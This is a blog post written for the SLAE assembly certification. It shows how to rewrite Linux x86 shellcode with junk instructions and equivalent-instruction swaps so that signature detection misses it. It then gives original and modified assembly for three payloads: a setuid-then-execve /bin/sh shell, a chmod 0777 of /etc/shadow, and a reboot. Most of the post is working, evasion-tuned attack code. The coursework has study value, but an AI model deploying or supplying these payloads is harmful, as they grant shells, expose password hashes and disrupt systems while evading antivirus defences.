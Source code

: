 ```yaml
---
title:  "[SLAE 6] Polymorphic Shellcodes"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

For this assignment I've taken 3 shellcodes from  [Shell-Storm](http://shell-storm.org/) and modified them to avoid detection by pattern matching, thus achieving polymorphism (kind of, more on this later). Some techniques I've used to do this:

* Add garbage/nop-like instructions:

```c
nop

mov al,al  
mov bl,bl  
mov cl,cl  
...  
mov ax,ax  
mov bx,bx  
mov cx,cx  
...  
xchg ax,ax  
xchg bx,bx  
xchg cx,cx  
...  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
```
* Add instructions without effect (e.g.: modify registers that don't affect the execution flow)
* Switch between _`mov`_, _`push`_ + _`pop`_, _`clear`_ + _`add`_:

| mov	| push + pop	| clear + add |
| :---:|:---:|:---: |
| mov al, 0xb	| push byte 0xb	| xor eax, eax|
| _ | pop eax	| add al, 0xb Z

* Switch between _`push`_ and _`mov`_ + _`add`_ + _`push`_:

| push	| mov + add + push |
| :---:|:---: |
| push 0x23456789	| mov esi, 0x12345678 |
| _ | add esi, 0x11111111 |
| _ | push esi |

* Change between _`push`_ and directly accessing the stack:

| push	| stack access |
| :---:|:---:|
| push 0x64777373	| mov dword [esp-4], 0x64777373 |
| _ | sub esp, 4 |

## 1. Execve()

First one is a polymorphic version of the _**`execve()`**_ of the following [shellcode](http://shell-storm.org/shellcode/files/shellcode-549.php): 
```c
    00000000  31C0              xor eax,eax
    00000002  31DB              xor ebx,ebx
    00000004  31C9              xor ecx,ecx
    00000006  B017              mov al,0x17
    00000008  CD80              int 0x80
    0000000A  31C0              xor eax,eax
    0000000C  50                push eax
    0000000D  686E2F7368        push dword 0x68732f6e
    00000012  682F2F6269        push dword 0x69622f2f
    00000017  89E3              mov ebx,esp
    00000019  8D542408          lea edx,[esp+0x8]
    0000001D  50                push eax
    0000001E  53                push ebx
    0000001F  8D0C24            lea ecx,[esp]
    00000022  B00B              mov al,0xb
    00000024  CD80              int 0x80
    00000026  31C0              xor eax,eax
    00000028  B001              mov al,0x1
    0000002A  CD80              int 0x80
```

And my changed version:
```c
    xor eax,eax
    mov ebx, eax            ; xor ebx,ebx
    mov ecx, ebx            ; xor ecx,ecx
    push 0x17               ; mov al,0x17
    pop ax
    xchg ecx, ecx           ; NOP added
    int 0x80                ; sys_setuid()

    xor eax,eax
    push eax
    mov dword [esp-4], 0x68732f6e ; push dword 0x68732f6e
    mov dword [esp-8], 0x69622f2f ; push dword 0x69622f2f
    sub esp, 8             ; increase the stack pointer
    mov ebx,esp
    lea edx,[esp+0x8]
    push eax
    push ebx
    lea ecx,[esp]
    mov al,0xb
    xor esi, esi            ; NOP added
    lea eax, [eax + esi]    ; NOP added
    int 0x80                ; execve()

    xor eax,eax
    mov al,0x1
    int 0x80                ; exit()
```

I've changed how registers are zeroed and how values were pushed on the stack and added some instructions with no effect.

## 2. Chmod /etc/shadow

The next [shellcode](http://shell-storm.org/shellcode/files/shellcode-828.php) changes the permissions of _`/etc/shadow`_ file: 
```c
    xor    %eax,%eax
    push   %eax
    pushl  $0x776f6461
    pushl  $0x68732f2f
    pushl  $0x6374652f
    movl   %esp,%esi
    push   %eax
    pushl  $0x37373730
    movl   %esp,%ebp
    push   %eax
    pushl  $0x646f6d68
    pushl  $0x632f6e69
    pushl  $0x622f2f2f
    mov    %esp,%ebx
    pushl  %eax
    pushl  %esi
    pushl  %ebp
    pushl  %ebx
    movl   %esp,%ecx
    mov    %eax,%edx
    mov    $0xb,%al
    int    $0x80
```

And my changed version: 
```c
    xor eax,eax
    push eax
    push dword 0x776f6461
    mov esi, 0x56611d1d         ; push dword 0x68732f2f
    lea edi, [esi]              ; junk
    add esi, 0x12121212
    push esi
    push dword 0x6374652f       ; '/etc/shadow'
    mov esi,esp
    push eax
    push dword 0x37373730       ; 0777
    mov ebp,esp
    push eax
    push dword 0x646f6d68
    mov edi, 0x030f0e09         ; push dword 0x632f6e69       
    add edi, 0x60206060
    push edi
    push word 0x622f            ; /bin/chmod
    mov ebx,esp
    push eax
    push esi
    push ebp
    push ebx
    mov ecx,esp
    mov edx,eax
    xor eax, eax                ; mov al,0xb
    add al, 0xa
    add al, 0x1
    xchg ecx, ecx               ; NOP added
    int 0x80
```

## 3. Reboot
Last one is a [reboot shellcode](http://shell-storm.org/shellcode/files/shellcode-69.php): 
```c
8048054:       31 c0                   xor    %eax,%eax
8048056:       50                      push   %eax
8048057:       68 62 6f 6f 74          push   $0x746f6f62
804805c:       68 6e 2f 72 65          push   $0x65722f6e
8048061:       68 2f 73 62 69          push   $0x6962732f
8048066:       89 e3                   mov    %esp,%ebx
8048068:       50                      push   %eax
8048069:       89 e2                   mov    %esp,%edx
804806b:       53                      push   %ebx
804806c:       89 e1                   mov    %esp,%ecx
804806e:       b0 0b                   mov    $0xb,%al
8048070:       cd 80                   int    $0x80
```

And my modified version: 
```c
    xor eax,eax
    push eax
    push dword 0x746f6f62
    mov edi, 0x05020f0e      ; push dword 0x65722f6e
    add edi,0x60702060
    push edi
    push dword 0x6962732f    ; /sbin/reboot
    mov ebx,esp
    push eax
    mov edx,esp
    push ebx
    mov ecx,esp
    push 0xa
    pop eax
    add al, 1                ; mov al,0xb
    int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
